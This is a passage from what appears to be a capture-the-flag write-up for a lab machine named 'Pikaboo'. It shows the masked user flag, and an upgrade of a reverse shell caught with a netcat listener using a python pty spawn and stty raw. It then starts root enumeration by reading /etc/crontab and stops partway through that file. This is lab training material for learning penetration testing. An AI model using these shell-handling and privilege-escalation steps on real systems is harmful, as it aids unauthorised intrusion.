     
    
    www-data@pikaboo:/home/pwnmeow$ cat user.txt
    23b4217f************************
    

And upgraded the shell:

    
    
    www-data@pikaboo:/var/www/html/admin_staging$ python3 -c 'import pty;pty.spawn("bash")'
    <_staging$ python3 -c 'import pty;pty.spawn("bash")'
    www-data@pikaboo:/var/www/html/admin_staging$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@pikaboo:/var/www/html/admin_staging$ 
    

## Shell as root

### Enumeration

#### cron

In poking around the file system, there’s a job that runs from `/etc/crontab
as root` every minute:

    
    
    www-data@pikaboo:/var/www$ cat /etc/crontab
    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.
    
    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    
    # Example of job definition:
    # .---------------- minute (0 - 59)
    # |  .------------- hour (0 - 23)
    # |  |  .---------- day of month (1 - 31)
    # |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...